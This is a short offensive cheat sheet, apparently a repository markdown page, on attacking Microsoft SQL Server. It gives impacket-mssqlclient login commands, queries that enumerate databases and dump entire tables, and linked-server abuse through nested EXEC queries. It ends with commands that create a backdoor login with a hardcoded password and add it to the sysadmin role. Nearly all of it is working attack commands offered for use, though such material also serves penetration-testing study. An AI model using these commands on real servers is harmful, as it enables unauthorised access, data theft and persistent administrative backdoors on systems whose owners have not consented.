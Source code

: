 # MSSQL Database Authentication and Dumping

### Commands:

 - impacket-mssqlclient -k DOMAIN.LOCAL (Kerberos auth example)

 - impacket-mssqlclient -windows-auth DOMAIN\\USERNAME@TARGET_IP

 - impacket-mssqlclient USERNAME@TARGET_IP (Local auth)

### DATABASE COMMANDS

 - SELECT name FROM sys.databases; (Enumerate all databases within MSSQL instance)

 - SELECT TABLE_NAME,TABLE_SCHEMA FROM targetdb.INFORMATION_SCHEMA.TABLES; (Enumerate tables of the target database)

 - SELECT * FROM targetdb.dbo.targettable (Dump all the contents of the target table of the target database)

### LINKED DATABASES ABUSE

 - select name,sysadmin from syslogins; (Check if our user has admin privileges to run commands with xp_cmdshell)

 - select srvname, isremote from sysservers; (Check if there are any linked servers on the current database. Isremote determines if it is linked or remote. If it is 1, it means it is linked, else is remote.)

 - EXEC ('select current_user') at [NAME\REMOTE_DATABASE]; (Check in whose context we are able to query the linked server)

 - EXEC ('select name,sysadmin from syslogins') at [NAME\REMOTE DATABASE]; (Check for sysadmin sa privileges)

 - EXEC ('select srvname,isremote from sysservers') at [NAME\REMOTE_DATABASE]; (Check the remote DB server if it has more links)

 - EXEC ('EXEC (''select susername()'') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE]; (Nested queries. This use case means that we have encountered a circular link between database servers!)

If we are sa, then we add a user with sysadmin privileges for us

 - EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

 - EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

